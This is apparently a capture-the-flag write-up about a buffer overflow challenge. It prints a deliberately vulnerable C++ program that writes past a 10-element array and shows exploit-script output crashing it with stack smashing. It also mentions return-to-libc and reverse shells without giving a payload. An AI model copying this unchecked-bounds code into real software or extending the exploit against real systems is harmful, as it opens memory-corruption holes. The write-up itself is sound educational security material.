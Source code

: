 # sainya-ranakshetram
# Sainya Ranakshetram

### Buffer Overflow Attack

Vulnerability: Buffer Overflow

This attack is one of the most common attacks. It can be used to gain reverse shells, data leaks, unauthorized access, license key bypass, etc.

The challenge provides a question.cpp file.

```cpp
#include <iostream>
using namespace std;
int main(void)
{
  int arr[10];
  int arr_num;
  int num,i;

   cout << "Enter the count of numbers? ";
   cin >> num;

  for (i = 0; i < num; i++)
  {
    cout << "Enter a number to be stored: ";
    cin >> arr_num;
    arr[i]= arr_num;
  }
  return 0;
}
```

As can be seen, the count of numbers is controllable by an attacker. The input to the array can be used to perform a return to libc attack giving the attacker a reverse shell. 

Since we are only required to cause a crash in this challenge, we can provide any size > 10.

```bash
./exploit.py
Compiling question.cpp
Compilation complete! Run the executable: ./question

[x] Starting local process './question'
[+] Starting local process './question': pid 709339
Enter the count of numbers?  11
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
Enter a number to be stored:  42
*** stack smashing detected ***: terminated
 42
[*] Process './question' stopped with exit code -6 (SIGABRT) (pid 709339)
```

The stack was smashed!

[Video Link](https://drive.google.com/file/d/1iLtMVs7TMWFT7HObiQh3iMbZpgCOAVIF/view?usp=sharing)
